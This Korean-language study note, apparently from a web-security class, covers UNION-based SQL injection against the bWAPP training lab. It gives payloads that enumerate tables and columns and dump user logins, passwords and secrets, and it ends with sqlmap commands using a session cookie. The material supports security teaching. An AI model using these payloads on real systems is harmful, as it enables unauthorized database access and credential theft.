 ```sql
select * from movies where like '%man' and 1=2 union select 1,@@version,2,3,4,5,6 -- %'
```

4. 테이블 정보를 조회

```sql
select * from movies where like '%man' and 1=2 union select 1,table_catalog,table_schema,table_name,4,table_type,6 from information_schema.tables -- %'
```

5. users 테이블에 컬럼 정보를 조회

```sql
select * from movies where like '%man' and 1=2 union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name='users' -- %'
```

6. users 테이블에 id, login, password, email, secret 정보를 조회

```sql
select * from movies where like '%man' and 1=2 union select 1,id,login,password,concat(email, ' : ', secret),6,7 from users -- %'
```



select * from movies where like '%man%' → 영화 정보

UNION

select * from xxxxxx → 공격자가 알고자 하는 정보를 조회하는 쿼리

⇒ select * from movies where like '%**man' union select * from xxxxx -- %**'

-> 각 쿼리의 결과 컬럼의 개수가 동일해야 한다.

-> 각 컬럼의 데이터 타입이 호환 가능해야 한다. 



#5. Blind SQL Injection => 내일(8월 14일)





----------------

sqlmap을 이용한 인증 정보 탈취

sqlmap -u "SQL 인젝션 취약점을 가지고 있는 URL 주소" --cookie="세션ID를 포함하고 있는 쿠키값" --명령어



SQL 인젝션 취약점을 가지고 있는 

URL 주소 ⇒ http://192.168.182.130/bWAPP/sqli_1.php?title=man&action=search

세션ID를 포함하고 있는 쿠키값 ⇒ 

PHPSESSID=tcpvsbic8lv5a2fk4h5ssaq241; security_level=0

sqlmap -u "http://192.168.111.150/bWAPP/sqli_1.php?title=man&action=search" --cookie="PHPSESSID=tcpvsbic8lv5a2fk4h5ssaq241; security_level=0" --dbs

